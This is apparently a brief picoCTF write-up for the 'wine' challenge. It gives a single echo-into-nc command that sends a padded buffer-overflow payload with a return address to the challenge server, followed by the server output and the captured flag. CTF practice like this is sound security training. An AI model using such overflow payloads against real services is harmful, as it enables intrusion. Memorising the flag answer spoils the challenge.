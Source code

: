 # wine  
```
$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0\x15@\x00' | nc saturn.picoctf.net 60051
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_1f5c0001}
```
flag: `picoCTF{Un_v3rr3_d3_v1n_1f5c0001}`  
